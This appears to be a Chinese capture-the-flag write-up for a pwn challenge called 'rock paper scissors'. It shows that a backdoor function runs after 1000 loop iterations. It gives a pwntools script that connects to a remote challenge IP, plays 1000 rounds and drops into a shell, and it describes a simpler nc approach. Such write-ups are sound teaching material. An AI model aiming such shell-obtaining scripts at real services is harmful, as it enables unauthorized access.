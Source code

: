 # **石头剪刀布：**

拿到可执行文件，拖到IDA里看源码：

首先是一个1000次的for循环

![image-20240520175408557](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520175408557.png)

我们可以发现当循环1000次执行后，才会执行我们的后门函数：

![image-20240520175547344](/石头剪刀布.assets/image-20240520175547344.png)

所以现在关键就是如何让这1000次的循环运行完：

到这儿有两种解法：

**第一种**是基于pwntools写一个脚本，接受程序的输出，再向程序输入，主要考察对pwn工具pwntools的使用

脚本如下：（这个脚本是按照石头剪刀布的玩法进行相应的接收和输入，但其实石头剪刀的输赢是没关系的，只要循环1000次就可以了）

```
from pwn import *

p = remote("81.69.243.226", 60579)

# p = process("./rock_paper_scissors")

i = 0

# gdb.attach(p)

for i in range(0,1000):
    p.recvuntil("Computer: \n", drop=True)
    p.recvuntil("->", drop=True)
    str = p.recvline().strip() 
    print(str)
    if str == b'Rock':
        p.recvline(b'You')
        p.sendline("p")
    elif str == b'Scissor':
        p.recvline(b'You')
        p.sendline("r")
    elif str == b'Paper':
        p.recvline(b'You')
        p.sendline("s")
p.interactive()
```

![image-20240520181243938](Pwn/石头剪刀布.assets/image-20240520181243938.png)

这里运行的时间会久一点，毕竟有1000次，可以看到我们不仅成功拿到shell，而且也赢了1000次的石头剪刀布✌

![image-20240520181350975](Pwn/石头剪刀布.assets/image-20240520181350975.png)

**第二种：**就是直接nc连接，直接输入1000个字符，r,s,p都可以：

![image-20240520181542062](Pwn/石头剪刀布.assets/image-20240520181542062.png)

![image-20240520181530551](Pwn/石头剪刀布.assets/image-20240520181530551.png)

尽管输了，但还是拿到shell啦

![image-20240520180907888](Pwn/石头剪刀布.assets/image-20240520180907888.png)

